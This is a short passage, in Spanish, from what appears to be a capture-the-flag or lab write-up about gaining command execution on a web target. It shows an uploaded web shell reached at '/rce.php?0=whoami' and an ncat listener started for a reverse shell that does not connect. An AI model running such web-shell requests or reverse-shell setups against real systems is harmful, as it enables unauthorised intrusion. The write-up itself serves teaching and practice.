 ![20240920123840.png](20240920123840.png)

Y para ejecutar comandos podemos observar el exploit que ejecuta lo siguiente:

```c
[...]
print("[+] Access at " + base_url + "/rce.php?0=whoami")
[...]
```

por lo que nuestra petición seria `/rce.php?0=whoami`

![20240920124103.png](20240920124103.png)


### Revershell

Para obtener una revershell debemos de ponernos a la escucha con `ncat`.

```c
❯ ncat -lnvp 443
```

Al enviar la petición no recibimos nada.

![20240920124759.png](20240920124759.png)
